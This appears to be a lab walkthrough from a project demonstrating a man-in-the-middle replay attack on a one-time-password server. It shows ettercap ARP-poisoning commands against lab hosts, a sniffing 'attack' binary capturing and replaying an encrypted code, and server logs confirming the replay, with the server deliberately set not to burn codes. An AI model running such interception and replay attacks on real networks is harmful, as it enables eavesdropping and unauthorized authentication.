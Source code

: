 
**NOTE:** _This assumes the setup instructions have been completed_

First, we start up the server on host 3:
```root@host3:~# ROCKET_ADDRESS=0.0.0.0 OTP_DO_NOT_BURN=1 ./server```

Then on the second host, we setup the man in the middle attack.
First we have to poison the arp tables of hosts 1 and 3 so that all the traffic gets routed to host 2.
```root@host2:~# ./spoof.sh```
This should generate output looking like this 
```
Starting ettercap....
spawn -ignore HUP ettercap -TM arp /10.4.9.1// /10.4.9.3//

ettercap 0.8.2 copyright 2001-2015 Ettercap Development Team

Listening on:
  eth0 -> 52:54:00:44:04:22
	  10.4.9.2/255.0.0.0
	  fe80::5054:ff:fe44:422/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Ettercap might not work correctly. /proc/sys/net/ipv6/conf/all/use_tempaddr is not set to 0.
Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
20388 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

3 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.4.9.1 52:54:00:44:04:21

 GROUP 2 : 10.4.9.3 52:54:00:44:04:23
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

Ettercap startup finished - killing it
Enabling kernel ip forwarding...
net.ipv4.ip_forward = 1
ARP attack complete. Failure to restore ARP tables will result in a DoS
```
This uses `ettercap` to execute the poisoning attack. Due to a bug in `ettercap` however, it is unable to correctly forward TCP packets. To deal with this, we kill `ettercap` and then enable ip forwarding at the kernel level. Now that we have executed the poisoning attack, we are ready to sniff out the OTP code. Let's prepare the attack!
```root@host2:~# OTP_REPLAY_MODE=immediate ./attack```
The binary should indicate that it is listening for packets 

```
Starting capture...
Capture initialized.
Setting tcp filter...
Listening...
```

Now that we are sniffing traffic in our MiTM, let's run the client from the first host!

```root@host1:~# ./client 10.4.9.3```


Back on host two, we should see something like this.
```
Starting capture...
Capture initialized.
Setting tcp filter...
Listening...
Captured OTP: "3c7e515d1a05961441ef3f04db534db1"
Executing immediate replay attack
SUCESSS: Replay attack worked!
```

Also notice that on host 3, the server has received two authentication requests! 

```
🚀 Rocket has launched from http://0.0.0.0:8000
POST /auth application/json:
    => Matched: POST /auth (auth)
___________________
NEW AUTH REQUEST RECEIVED
Expected code: 1936
Decrypted code: 1936
Authentication successful.
    => Outcome: Success
    => Response succeeded.
POST /auth application/json:
    => Matched: POST /auth (auth)
___________________
NEW AUTH REQUEST RECEIVED
Expected code: 1936
Decrypted code: 1936
Authentication successful.
    => Outcome: Success
    => Response succeeded.   
```
One of these came from the legitimate client and the other came from our attacker. Note that we cannot actually know what the code is from the attacker as it is encrypted, but that doesn't matter! We can just replay the same bytes because the server doesn't burn the code. Now if the server burned codes, this attack would not work.
